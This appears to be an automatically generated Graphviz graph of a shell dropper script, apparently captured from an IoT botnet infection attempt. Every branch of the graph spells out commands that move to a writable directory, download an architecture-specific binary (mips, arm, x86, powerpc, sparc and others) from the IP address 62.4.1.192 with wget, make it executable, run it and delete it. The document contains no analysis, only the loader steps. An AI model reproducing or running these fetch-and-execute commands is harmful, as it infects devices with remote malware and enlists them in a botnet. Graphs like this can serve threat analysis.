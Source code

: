 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://62.4.1.192/jackmymips "];
10 -> 12 [label=";,"];
12 [label="chmod +x jackmymips "];
12 -> 14 [label=";,"];
14 [label="./jackmymips "];
14 -> 16 [label=";,"];
16 [label="rm -rf jackmymips "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://62.4.1.192/jackmymipsel "];
28 -> 30 [label=";,"];
30 [label="chmod +x jackmymipsel "];
30 -> 32 [label=";,"];
32 [label="./jackmymipsel "];
32 -> 34 [label=";,"];
34 [label="rm -rf jackmymipsel "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://62.4.1.192/jackmysh4 "];
46 -> 48 [label=";,"];
48 [label="chmod +x jackmysh4 "];
48 -> 50 [label=";,"];
50 [label="./jackmysh4 "];
50 -> 52 [label=";,"];
52 [label="rm -rf jackmysh4 "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://62.4.1.192/jackmyx86 "];
64 -> 66 [label=";,"];
66 [label="chmod +x jackmyx86 "];
66 -> 68 [label=";,"];
68 [label="./jackmyx86 "];
68 -> 70 [label=";,"];
70 [label="rm -rf jackmyx86 "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://62.4.1.192/jackmyarmv6 "];
82 -> 84 [label=";,"];
84 [label="chmod +x jackmyarmv6 "];
84 -> 86 [label=";,"];
86 [label="./jackmyarmv6 "];
86 -> 88 [label=";,"];
88 [label="rm -rf jackmyarmv6 "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://62.4.1.192/jackmyi686 "];
100 -> 102 [label=";,"];
102 [label="chmod +x jackmyi686 "];
102 -> 104 [label=";,"];
104 [label="./jackmyi686 "];
104 -> 106 [label=";,"];
106 [label="rm -rf jackmyi686 "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://62.4.1.192/jackmypowerpc "];
118 -> 120 [label=";,"];
120 [label="chmod +x jackmypowerpc "];
120 -> 122 [label=";,"];
122 [label="./jackmypowerpc "];
122 -> 124 [label=";,"];
124 [label="rm -rf jackmypowerpc "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://62.4.1.192/jackmyi586 "];
136 -> 138 [label=";,"];
138 [label="chmod +x jackmyi586 "];
138 -> 140 [label=";,"];
140 [label="./jackmyi586 "];
140 -> 142 [label=";,"];
142 [label="rm -rf jackmyi586 "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://62.4.1.192/jackmym86k "];
154 -> 156 [label=";,"];
156 [label="chmod +x jackmym86k "];
156 -> 158 [label=";,"];
158 [label="./jackmym86k "];
158 -> 160 [label=";,"];
160 [label="rm -rf jackmym86k "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://62.4.1.192/jackmysparc "];
172 -> 174 [label=";,"];
174 [label="chmod +x jackmysparc "];
174 -> 176 [label=";,"];
176 [label="./jackmysparc "];
176 -> 178 [label=";,"];
178 [label="rm -rf jackmysparc "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://62.4.1.192/jackmyarmv4 "];
190 -> 192 [label=";,"];
192 [label="chmod +x jackmyarmv4 "];
192 -> 194 [label=";,"];
194 [label="./jackmyarmv4 "];
194 -> 196 [label=";,"];
196 [label="rm -rf jackmyarmv4 "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://62.4.1.192/jackmyarmv5 "];
208 -> 210 [label=";,"];
210 [label="chmod +x jackmyarmv5 "];
210 -> 212 [label=";,"];
212 [label="./jackmyarmv5 "];
212 -> 214 [label=";,"];
214 [label="rm -rf jackmyarmv5 "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://62.4.1.192/jackmypowerpc440 "];
226 -> 228 [label=";,"];
228 [label="chmod +x jackmypowerpc440 "];
228 -> 230 [label=";,"];
230 [label="./jackmypowerpc440 "];
230 -> 231 [label=";,"];
}
